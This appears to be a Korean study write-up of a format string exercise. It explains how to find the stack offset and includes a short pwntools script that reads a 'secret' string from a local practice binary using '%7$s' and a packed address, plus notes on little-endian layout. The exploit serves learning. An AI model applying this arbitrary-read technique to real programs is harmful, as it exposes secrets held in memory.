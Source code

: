 먼저, `format`의 `[n]`이 얼마인지 찾기 위해 `A.. %[n]$p`를 입력해보며 테스트해보자. 바이너리에서도 예상할 수 있지만, 아래와 같이 6번째인 `rsp`가 `format`의 주소와 같을 것이다.

<img width="238" alt="image" src="https://github.com/user-attachments/assets/a4f61d21-e933-472b-b83f-67238f717d8f">

처음에는 이를 보고 `secret의 주소` + `%6$s` 를 전달해주면 `[rsp]`에 `secret`의 주소가 입력되고, 바로 `%6$s`를 통해 `[rsp]` 가 가리키는 문자열을 읽게 되니까 익스플로잇이 가능하다고 생각했는데,

`secret`의 주소가 입력되는 과정에서 포맷스트링이 정상적으로 처리되지 않아서인지(%가 들어갔다거나, 다른 형식지정자가 끼었다던가) 해서 제대로 익스플로잇이 되지 않았다.

따라서, `%[n]$s`이 포맷스트링의 처음값이 되어서 앞에서부터 잘 출력이 되도록, `[rsp + 0x8]`에 `secret`의 주소를 입력해주고, 한칸 더 이동해서 `%7$s`로 읽어주도록, **`%7$s(8바이트로 맞춰줘야함) + secret의 주소`**를 익스플로잇으로 전달해주면 해결된다.

```
#!/usr/bin/python3
# Name: fsb_aar.py

from pwn import *

p = process("./fsb_aar")
p.recvuntil("`secret`: ")

addr_secret = int(p.recvline()[:-1], 16)

fstring = b"%7$s".ljust(8)
# fstring = b"%7$s" + b"\x00" * 0x4
fstring += p64(addr_secret)

# 아래는 포맷스트링에 간섭이 나서 안됨
# fstring = p64(addr_secret)
# fstring += b"%6$s".ljust(8)

p.sendline(fstring)
p.interactive()
```

위와 같이 익스플로잇 코드를 짤 수 있고, `ljust(8)`을 해줘야 하는 이유는, `%[n]$s`를 통해 스택에서 `8bytes` 단위로 읽을 수 있기 때문에, 형식지정자를 8바이트로 맞춰줘야 하기 때문에 8바이트보다 작다면 `공백`을 추가해주는 역할을 하는 `ljust(8)`을 써줬다.

`ljust(8)` 대신, `%7$s`에는 4바이트가 부족하기 때문에 뒤에 `+ b"\x00" * 0x4`를 해줘도 상관 없다.

### 참고 : 리틀엔디언의 문자열 입력 방식

계속 헷갈리는데, `리틀엔디언`에서 `문자열`을 입력할 경우, 예를 들어 `"AAA B"` 를 입력하면 `MSB(가장 왼쪽)`인 `A`가 `가장 낮은 주소`에 들어가고 `LSB(가장 오른쪽)`인 `B`가 `가장 높은 주소`에 들어가기 때문에 8바이트로 만들 때, 뒤에 `b"\x00"`을 더해줘야 높은 주소에 `0x00`이 들어가기 때문에 뒤에 더해주는 것이다.

반대로, 정수를 입력할 때는 `0x1234`라는 값은 8바이트로 채워지지 않은 경우 `LSB(가장 오른쪽)`인 `0x34`가 가장 낮은 주소에 들어가고, 차례대로 그 다음인 `0x12`가 높은 주소로 채워져서 `0x0000..3412`가 채워진다고 생각하면 된다.

**정리하자면, 리틀엔디언에서 문자열로 읽을 때나 입력할 때는 낮은 주소부터 1바이트씩 끊어서 읽는다고 생각하면 되고, 정수로 해석할 때는 높은 주소부터 1바이트씩 끊어서 차례대로 해석하면 된다. 모든 입력은 문자열로 받는다는 것을 기억하자**

**그리고 표준 입출력으로 받을 때는 모든 값을 문자열로 받기 때문에 낮은 주소부터 넣고 싶은 값을 가장 오른쪽에 위치시키면 된다.**

<img width="343" alt="image" src="https://github.com/user-attachments/assets/fb2df037-65c1-4277-9fa3-0b1967984861">
